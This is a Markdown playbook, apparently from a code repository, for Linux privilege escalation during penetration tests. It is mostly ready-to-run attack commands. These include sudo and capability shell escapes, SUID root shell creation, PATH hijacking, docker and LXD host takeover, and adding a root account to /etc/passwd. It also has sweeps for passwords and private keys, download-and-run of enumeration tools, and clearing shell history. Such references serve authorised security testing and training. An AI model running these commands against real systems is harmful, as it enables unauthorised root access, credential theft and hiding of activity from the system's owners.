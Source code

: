 # Linux Privilege Escalation Playbook

Structured checklist for Linux privilege escalation covering rapid triage, enumeration, exploitation paths, and tooling. Replace placeholders (`<user>`, `<target>`, `<interface>`, `<ip>`) before running commands.

---

## Quick Triage Checklist
- Identify current user and host: `whoami`, `id`, `hostname`
- Inspect sudo rights: `sudo -l`
- Enumerate SUID/SGID binaries: `find / -perm -4000 -o -perm -2000 -type f 2>/dev/null`
- Check kernel/OS version: `uname -a`, `cat /etc/os-release`
- Review running processes and listening services: `ps aux`, `ss -tulpn`
- Search for credential artifacts: `grep -R "pass" /etc /opt /home 2>/dev/null`
- **Command bundle for fast context:**
  ```bash
  whoami; id; hostname
  sudo -l
  uname -a
  cat /etc/os-release
  ps aux | head
  ss -tulpn
  find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
  ```

---

## 1. Baseline Enumeration
- Confirm user, groups, and SELinux/AppArmor context: `id`, `getenforce`, `aa-status`
- Gather kernel, architecture, and OS release: `uname -a`, `cat /proc/version`, `cat /etc/os-release`
- Review environment variables for secrets and unusual paths: `env`, `cat ~/.bash_history`
- List network interfaces, routes, and listening sockets: `ip a`, `ip route`, `ss -tulnp`
- Inventory processes and services (note root-owned daemons): `ps faux`, `systemctl list-units --type=service --state=running`

### Automated helpers
- `linpeas.sh` – Comprehensive priv-esc audit (`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh`)
- `lse.sh` (Linux Smart Enumeration) – Adaptive checks (`./lse.sh -l2`)
- `les.sh` (Linux Exploit Suggester) – Kernel exploit suggestions (`./linux-exploit-suggester.sh`)
- `LinuxPrivChecker.py` – Simple rights/cron/suid review (`python3 LinuxPrivChecker.py`)

---

## 2. Credential & Secret Hunting
- Search configuration directories for plaintext credentials: `grep -R "password" /etc /opt /var/www 2>/dev/null`
- Scan user home directories for SSH keys and history: `ls -l ~/.ssh`, `grep -R "pass" ~ 2>/dev/null`
- Check root and user crontabs for embedded credentials: `cat /etc/crontab`, `ls -l /etc/cron.*`
- Inspect database/app configs: `find / -name "*.conf" -o -name "*.env" -o -name "*.ini" 2>/dev/null | head`
- Review Docker/Kubernetes configs for secrets: `cat ~/.docker/config.json`, `kubectl config view`
- Dump stored passwords from keyrings when unlocked: `secret-tool search user <user>`

**Command bundle for secret sweep:**
```bash
grep -R "password\|pass\|secret\|token" /etc /opt /var/www 2>/dev/null
find / -name "*config*" -o -name "*.env" -o -name "*.ini" 2>/dev/null | head
ls -la ~/.ssh
cat ~/.ssh/config 2>/dev/null
grep -R "BEGIN PRIVATE KEY" -n /home /root 2>/dev/null
```

---

## 3. Privilege Escalation Vectors

### 3.1 Sudo & SUID
- Enumerate sudo privileges (respect PATH, wildcards): `sudo -l`
- Identify SUID/SGID binaries for GTFObins abuse: `find / -perm -4000 -type f 2>/dev/null`, then check https://gtfobins.github.io/
- Detect world-writable SUID binaries: `find / -perm -4000 -type f -writable 2>/dev/null`
- Check for SUID shell or busybox binaries: `strings /path/to/binary | head`

**Example exploit – tar via sudo (no password required):**
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

### 3.2 Capabilities
- List files with Linux capabilities set: `getcap -r / 2>/dev/null`
- Example: if `/usr/bin/python3 = cap_setuid+ep` → escalate with  
  `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

### 3.3 Cron Jobs & Timers
- Inspect system-wide cron entries: `cat /etc/crontab`, `ls -l /etc/cron.*`
- Check user crontabs: `for u in $(cut -f1 -d: /etc/passwd); do crontab -u $u -l 2>/dev/null; done`
- For systemd timers: `systemctl list-timers --all`
- Exploit writable scripts executed by cron (overwrite with payload, wait for trigger).

### 3.4 Writable Paths & PATH Hijacking
- Find world-writable directories and files owned by root: `find / -writable -type d -maxdepth 3 2>/dev/null`
- Check `PATH` for writable entries: `echo $PATH`, `ls -ld $(echo $PATH | tr ":" " ")`
- Replace binaries executed by root if path order allows (`echo 'cp /bin/sh /tmp/sh && chmod +s /tmp/sh' > fakebinary`).

### 3.5 NFS & Shared Storage
- Review `/etc/exports` for `no_root_squash`: `cat /etc/exports`
- If mount allows root ownership, create SUID shell remotely:  
  `cp /bin/bash /mnt/nfs/shell && chmod +s /mnt/nfs/shell`
- For automounts, inspect `/etc/auto.*` and mounts under `/media`, `/mnt`, `/run`.

### 3.6 Containers & Virtualization
- Check group membership for `docker`, `lxd`, `podman`: `id`
- If in `docker`, spawn privileged container shell: `docker run -it --rm --privileged -v /:/host alpine chroot /host /bin/sh`
- For LXD:  
  ```bash
  lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine-rootfs
  lxc init alpine-rootfs ignite -c security.privileged=true -c security.nesting=true
  lxc config device add ignite hostdisk disk source=/ path=/mnt/root
  lxc start ignite && lxc exec ignite /bin/sh
  ```

### 3.7 Kernel Exploits
- Identify vulnerable kernels: `uname -r`, `cat /etc/issue`
- Use exploit suggesters (LES, `searchsploit linux kernel`).
- Compile and run exploits carefully; document exact CVE (e.g., `dirtycow`, `overlayfs`).

### 3.8 Network Services
- Scan localhost-available services for reuse: `ss -tulpn | grep 127.0.0.1`
- Forward ports for remote exploitation (e.g., SSH pivot): `ssh -L 8000:127.0.0.1:8000 user@host`
- Check for misconfigured root-owned daemons exposing management interfaces.

---

## 4. Monitoring & Process Discovery
- Run `pspy` to watch cron jobs and processes without root:  
  `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O pspy64 && chmod +x pspy64 && ./pspy64`
- Use `inotifywait` to monitor file creation/changes: `inotifywait -m /tmp`
- Observe systemd journal for privileged operations: `journalctl -f`

---

## 5. Exploitation Examples
- **Writable service script (cron/systemd):**
  ```bash
  echo '#!/bin/bash' > /usr/local/bin/backup.sh
  echo 'cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot' >> /usr/local/bin/backup.sh
  chmod +x /usr/local/bin/backup.sh
  # Wait for service/cron to execute
  /tmp/bashroot -p
  ```
- **PATH hijack via sudo:**
  ```bash
  echo '/bin/sh' > /tmp/service
  chmod +x /tmp/service
  PATH=/tmp:$PATH sudo service nginx restart
  ```
- **Exploiting writable `/etc/passwd`:**
  ```bash
  openssl passwd -1 -salt root pass123
  # Append to /etc/passwd
  echo 'root2:$1$root$SALT_HASH:0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd
  su root2
  ```

---

## 6. Persistence & Cleanup
- Confirm elevated access: `id`, `whoami`, `cat /etc/shadow` (readable now?)
- Capture proof files (e.g., `/root/proof.txt`, `/root/.bash_history` carefully).
- Remove uploaded tools and reverse modifications: `rm linpeas.sh`, restore overwritten scripts.
- Clear command history if engagement rules allow: `history -c`, remove `~/.bash_history`.
- Document exploited vector, commands executed, and cleanup actions.

---

## Tooling Reference
- linPEAS: https://github.com/carlospolop/PEASS-ng
- Linux Smart Enumeration (lse): https://github.com/diego-treitos/linux-smart-enumeration
- Linux Exploit Suggester 2: https://github.com/jondonas/linux-exploit-suggester-2
- pspy: https://github.com/DominicBreuker/pspy
- GTFOBins: https://gtfobins.github.io/
- LES.sh: https://github.com/mzet-/linux-exploit-suggester
- BeRoot (Linux): https://github.com/AlessandroZ/BeRoot
